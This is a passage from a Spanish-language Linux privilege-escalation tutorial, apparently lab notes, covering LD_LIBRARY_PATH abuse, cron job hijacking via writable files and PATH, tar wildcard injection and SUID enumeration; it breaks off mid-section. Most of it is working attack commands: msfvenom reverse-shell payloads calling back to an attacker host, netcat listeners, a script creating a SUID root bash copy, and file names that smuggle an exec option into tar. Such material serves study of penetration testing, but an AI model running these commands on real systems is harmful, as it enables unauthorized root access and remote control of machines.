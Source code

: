 ```s
```
Y ahora ejecutaremos
```s
sudo LD_LIBRARY_PATH=/tmp apache2
```

### [](#header-3)Cron Jobs - File Permissions 
Esta tecnica consiste en tomar control de un archivo que se ejecute en el sistema en el cual tengamos permisos de escritura sobre este mismo.
Para encontrar los archivos que se ejecutan en automatico, podemos usar:
```s
cat /etc/crontab
```
En este ejemplo, agregaremos al archivo que se ejecuta automaticamente la salida del payload generado con el comando:
```s
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```
En la maquina atacante solo tendremos que ejecutar:
```s
nc -lvnp 8888
```
### [](#header-3)Cron Jobs - PATH Environment Variable
Esta tecnica consiste en abusar del PATH donde se ejecutan los archivos, haciendo el cat /etc/crontab podemos ver el path y usar el que este antes para que se resuelva la ejecusion a nuestro control.
Creamos un archivo con el mismo nombre, con el siguiente codigo
```s
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Le damos permisos de ejecusion
```s
chmod +x /home/user/overwrite.sh
```
Ejecutamos nuestra shell de root con
```s
/tmp/rootbash -p
```
### [](#header-3)Cron Jobs - Wildcards 
En este ejemplo tomaremos como ejemplo una wild card que se usa comunmente con el comando tar en los cronjobs.
Consiste en ejecutar comandos de tar con los mismos nombres de los archivos. Y se logra de la manera siguiente:
Primero, haremos un payload con el comando:
```s
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```
Despues lo colocaremos en el directorio adecuado y le asignamos permisos de ejecusion, y crearemos otros dos archivos con:
```s
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
Esperamos la conexion y vuala
```s
nc -nvlp 4444
```
### [](#header-3)SUID / SGID Executables - Known Exploits 
Como en el caso anterior, usaremos un comando para mapear los ejecutables con permisos de root.
```s
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```